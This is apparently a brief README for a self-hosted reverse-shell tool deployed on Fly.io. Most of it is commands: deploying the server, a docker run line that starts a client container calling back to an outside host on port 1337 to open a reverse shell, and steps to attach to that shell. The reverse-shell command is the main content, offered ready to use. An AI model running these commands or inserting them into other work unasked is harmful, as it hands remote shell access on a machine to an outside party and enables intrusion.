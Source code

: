 ```
fly launch --no-deploy --copy-config
fly deploy
```

If updating, just run `fly deploy`.

# Initiate reverse shell:

```
docker run --network=host --hostname=client -it -e SERVER_ADDRESS=reverse-shell.heywoodlh.io -e SERVER_PORT=1337 --rm docker.io/heywoodlh/reverse-shell:client
```

# Attach to reverse shell

```
fly ssh console
/attach.sh
```
